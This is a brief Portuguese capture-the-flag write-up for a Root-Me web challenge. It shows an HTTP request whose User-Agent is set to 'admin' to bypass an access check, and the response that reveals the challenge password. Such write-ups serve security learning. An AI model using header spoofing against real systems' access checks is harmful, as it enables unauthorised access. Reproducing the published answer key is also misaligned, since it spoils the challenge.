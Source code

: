# HTTP - User-agent

Efetuando a troca do user-agent no cabeçalho HTTP, é possível fazer o bypass através da requisição e obter a senha.
A captura e edição da requisição pode ser feita pelo Burp Suit.

## Requisição:

<pre>GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0</pre>

## Resposta:

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Sun, 02 Feb 2020 21:12:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 268

<html><body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe><h3>Welcome master!<br/>Password: rr$Li9%L34qd1AAe27</h3></body></html></pre>
